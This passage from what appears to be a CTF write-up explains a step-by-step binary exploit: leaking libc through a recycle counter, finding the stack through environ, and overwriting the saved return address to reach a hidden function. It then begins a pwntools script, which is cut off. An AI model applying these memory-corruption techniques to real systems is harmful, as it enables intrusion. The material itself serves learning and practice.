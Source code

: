 ## exploit

Ok, so, what can we do with all the vulnerabilities we've found above? That's right: we can redirect code execution to the `hidden_resources` function we have found during recon. Here's a step-by-step of how we'll do it:   1.

1. Recycle `5` times; every time, answer the question about whether or not this is our first time recycling with `no` --> this will increase the `rec_count` variable in the `.data` section to `5`, therefore gifting us the address of `printf` in `libc`.
2. Use this address to calculate `libc`'s base address and, using that, the address of `libc`'s `environ` pointer in memory. According to [its documentation](https://man7.org/linux/man-pages/man7/environ.7.html), the `environ` pointer points to an array of pointers to strings. This array of strings is located on the stack as can easily be confirmed in GDB:

![image-20210422154522010](exploit.png)

3. Recycle `5` more times; once again answering the question with `no`. Since `rec_count` will now be equal to `10`, if we recycle something now, we get an arbitrary read that we can use to leak the address `environ` is pointing to.
4. Using this information, we can now abuse the arbitrary write present in `plant`. Knowing the leaked stack address and having a rough offset of the stored `rip` from that leaked address, we can now cycle through multiple values on the stack, comparing them to the value we know the stored instruction pointer should have. When we find it, we overwrite it with the address of the `hidden_resources` function.
5. Profit!

### script

```python
#!/usr/bin/env python3

from pwn import *
from typing import *

# ============================================ #
RIP_OFF: int    = 0x130
# ============================================ #

def prompt(r: tubes.tube.tube) -> None:
    r.recvuntil(b'> ')

def recycle(r: tubes.tube.tube, n: int) -> bytes:
    if n == 0:
        for j in range(2):
            prompt(r)
            r.sendline(b'2')
        prompt(r)
        r.sendline(b'y')
        return
    for i in range(n):
```